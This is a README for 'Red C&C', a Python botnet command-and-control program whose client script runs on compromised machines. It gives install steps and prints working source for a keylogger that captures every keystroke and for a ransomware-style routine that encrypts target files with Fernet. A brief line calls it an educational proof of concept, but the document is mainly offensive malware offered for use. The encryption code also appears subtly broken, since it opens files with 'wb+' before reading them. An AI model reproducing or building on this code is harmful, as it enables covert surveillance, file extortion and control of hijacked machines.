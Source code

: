 ```
				██████╗ ███████╗██████╗  	██████╗   ██╗    ██████╗
				██╔══██╗██╔════╝██╔══██╗	██╔════╝   ██║   ██╔════╝
				██████╔╝█████╗  ██║  ██║	██║     ████████╗██║     
				██╔══██╗██╔══╝  ██║  ██║	██║     ██╔═██╔═╝██║     
				██║  ██║███████╗██████╔╝	╚██████╗██████║  ╚██████╗
				╚═╝  ╚═╝╚══════╝╚═════╝  	╚═════╝╚═════╝   ╚═════╝
```                                            
Red C&C is a program focused on commanding and controlling a botnet. Red C&C consists of two scripts: one that will be executed by the attacker and one that will be downloaded and executed on the target machines. Red C&C will allow an attacker to send terminal commands to an entire botnet through a single interface using a single command. The purpose of Red C&C is to simplify the communication between an attacker and the machines that they have compromised. Red C&C uses two of Python's built-in modules for most of the heavy lifting: the **Socket** module for establishing a client-server communication between the attacker and the target machines, and the **Threading** module for dividing the two main functions of the program into two seperate threads. 

#### **Note**: Red C&C was created as a PoC and should not be used for malicious intent but for educational purposes.

### Installing Red C&C
```
# Install Git if its not installed.
apt install git

# Clone this repository to a folder of your choosing.
git clone https://github.com/binexisHATT/Red-C-C.git

# Change directory into the programs folder.
cd Red-C-C/

# Running the handler.
./ss.py

----------------------------------
Or you can create a symbolic link:

path = the path to the folder you cloned Red C&C in.
ln path/Red-C-C/scripts/net/ss.py /bin/redcc

With this symbolic link, typing "redcc" will execute the handler anywhere in the command line.

# Running the handler.
redcc
```


## Some of Red C&C's Highlights
### Built-in Keylogger
```python
def on_press(key):
	global LOG
	try:
		LOG += str(key.char)
	except AttributeError:
		if key == key.space:
			LOG += ' '
		elif key == key.enter: LOG += '\n'
		elif key == key.backspace: LOG += '' 
		elif key == key.ctrl: LOG += ' ctrl+'
		elif key == key.tab: LOG += '\t'
		elif key == key.cmd: LOG += ' cmd+'
		elif key == key.alt: LOG += ' alt+'
		elif key == key.caps_lock: LOG += ' CapsLock '
		elif key == key.delete: LOG += ' Del '
		elif key == key.down: LOG += ' DownArrow '
		elif key == key.left: LOG += ' LeftArrow '
		elif key == key.up: LOG += ' UpArrow '
		elif key == key.right: LOG += ' RightArrow'
		elif key == key.esc: LOG += ' esc '
		elif key == key.home: LOG += ' HomeKey '
		elif key == key.insert: LOG += ' InsertKey '
		elif key == key.print_screen: LOG += ' PrintScreen '
		elif key == key.shift: LOG += ' shift+'
		elif key == key.f1: LOG += ' F1 '
		elif key == key.f2: LOG += ' F2 '
		elif key == key.f3: LOG += ' F3 '
		elif key == key.f4: LOG += ' F4 '
		elif key == key.f5: LOG += ' F5 '
		elif key == key.f6: LOG += ' F6 '
		elif key == key.f7: LOG += ' F7 '
		elif key == key.f8: LOG += ' F8 '
		elif key == key.f9: LOG += ' F9 '
		elif key == key.f10: LOG += ' F10 '
		elif key == key.f11: LOG += ' F11 '
		elif key == key.f12: LOG += ' F12 '
		else:
			LOG += str(key)
def keylogger():
	listener = keyboard.Listener(on_press=on_press)
	try:
		if SYSTEM == 'Linux':
			os.mkdir(LIN_DIR)
		else:
			os.mkdir(WIN_DIR)
		log_to_file()
		listener.start()
	except OSError:
		pass
```
### Built-in Rasonware Operations
```python
def crypto(action: str, *args):
	if action == 'encrypt':
		to_encrypt = args[0]
		with open(to_encrypt, 'wb+') as f:
			data = f.read()
			key = Fernet.generate_key()
			cipher = Fernet(key)
			cipher_text = cipher.encrypt(data)
			f.seek(0)
			f.write(cipher_text)
			f.truncate()
			return f'  Save the decryption key -> {key.decode()}'
	else:
		to_encrypt, key = args[0][0], args[0][1]
		with open(to_encrypt, 'wb+') as f:
			cipher_text = f.read()
			cipher = Fernet(key)
			try:
				plain_text = cipher.decrypt(cipher_text)
			except cryptography.fernet.InvalidToken:
				return '  [-] Invalid key!'
			f.seek(0)
			f.write(plain_text)
			f.truncate()
			return '  [+] File successfully decrypted!'
```

### Watch our project video demo here -->
